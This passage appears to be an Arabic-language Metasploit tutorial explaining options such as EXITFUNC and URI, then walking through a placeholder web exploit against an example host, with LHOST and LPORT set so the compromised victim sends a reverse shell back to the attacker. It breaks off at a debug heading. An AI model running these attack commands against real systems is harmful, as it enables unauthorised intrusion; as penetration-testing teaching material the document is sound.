 ```bash
set EXITFUNC thread
```

🔹 **المعنى:** "بعد ما الـ Payload يشتغل، يقفل الجلسة بدون ما يخرب النظام".

---

## **1️⃣3️⃣ URI – الرابط أو المسار اللي هيشتغل عليه الاستغلال**

📌 بعض الهجمات محتاجة رابط معين للـ **Payload**.  
🛠️ **مثال:**

```bash
set URI /exploit
```

🔹 **المعنى:** "الـ Payload هيشتغل على `/exploit`".

دائما هتخليه كده علشان تبقي ال root
```bash
set URI /
```
---

## **🔥 مثال عملي على استغلال ثغرة في موقع ويب**

```bash
use exploit/unix/webapp/some_exploit    # استخدم استغلال ويب
set RHOSTS 192.168.1.100                 # استهدف الجهاز الضحية
set RPORT 80                              # استهدف خدمة HTTP
set TARGETURI /admin                      # استهدف لوحة التحكم
set VHOST target.example.com              # تحديد الموقع المستهدف
set LHOST 192.168.1.50                    # استقبال الاتصال العكسي
set LPORT 4444                             # بورت الاتصال العكسي
exploit                                   # نفّذ الهجوم
```

🔹 **ده معناه:**

1. بتهاجم سيرفر على **192.168.1.100**
2. الخدمة المستهدفة **HTTP على البورت 80**
3. الهجوم على **المسار `/admin`**
4. الاستغلال هيشتغل داخل **الموقع `target.example.com`**
5. لما الضحية تتخترق، **هتبعت اتصال عكسي لجهازك على `192.168.1.50:4444`**

---

🔥 **كده انت فهمت كل الـ Set Options في Metasploit** 💣💻  
لو عندك أي سؤال، اسألني وأنا تحت أمرك! 😎👊
## 🔍 **4. استخدام خيار Debug لرؤية تفاصيل أكثر**

يمكنك تشغيل الاستغلال مع **التفاصيل الإضافية** لمعرفة سبب الفشل:

